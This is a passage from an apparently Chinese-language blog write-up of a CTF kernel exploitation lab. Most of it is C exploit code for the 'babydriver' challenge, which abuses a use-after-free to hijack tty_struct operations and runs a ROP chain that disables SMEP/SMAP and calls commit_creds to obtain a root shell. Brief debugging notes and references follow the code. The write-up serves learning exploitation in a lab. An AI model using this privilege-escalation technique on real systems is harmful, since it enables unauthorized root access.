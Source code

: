 ```c
    prepare_kernel_cred =0xffffffff810a1810;
    commit_creds = 0xffffffff810a1420;
    //make rop
    size_t rop[0x20];
    int i=0;
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0x6f0; // close smap/smep ,usual cr4 value
    rop[i++] = mov_cr4_rdi_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = pop_rcx_ret;
    rop[i++] = mov_rdi_rax_call_rdx;
    rop[i++] = commit_creds;
    rop[i++] = swapgs_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = get_root_shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    printf("rop_addr: %p\n",rop);

    size_t fake_op[0x20];
    for(i=0;i<0x20;i++){
        fake_op[i] = mov_rsp_rax_dec_ebx_ret;
    }
    fake_op[0] = pop_rax_ret;
    fake_op[1] = rop;
    printf("fake_op_addr:%p\n",fake_op);

    int fd1 = open("/dev/babydev",O_RDWR);
    int fd2 = open("/dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0x2c0);//因为 tty_struct的大小为0x2c0（4.15.0下测试），推断分配的slab位于 kmalloc-1024上
    close(fd1);
    size_t tty_struct[0x20];
    int fd3 = open("/dev/ptmx",O_RDWR);
    read(fd2,tty_struct,0x40);
    printf("original_op_addr:%p\n",tty_struct[3]);
    tty_struct[3] = fake_op;
    write(fd2,tty_struct,0x40);
    write(fd3,tty_struct,0x40);
    system("pause");
    return 0;
}
```

### 堆块隔离绕过时存在的问题<br>
在实现绕过时，一开始尝试了ret2usr发现程序确实能拿到root，但是，或许shell时，内核炸了...
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221021202920.png)
刚开始以为ret2usr有问题，后来改成了纯粹的内核ROP，发现还是出现上图的情况<br>
在调试时，我发现我并不能运行到获得root权限的代码。（准确的说，无论我断在哪个点上，gdb单步运行一次会导致内核崩溃重启）。<br>
暂时没有找到解决办法，猜测是qemu版本太老导致的问题。<br>

## references<br>
[vmware下ubuntu不支持kvm虚拟化](https://blog.csdn.net/weixin_43168105/article/details/88240280)<br>
[ubuntu20.04 kvm测试及安装](https://blog.csdn.net/twotwo22222/article/details/126767604)<br>
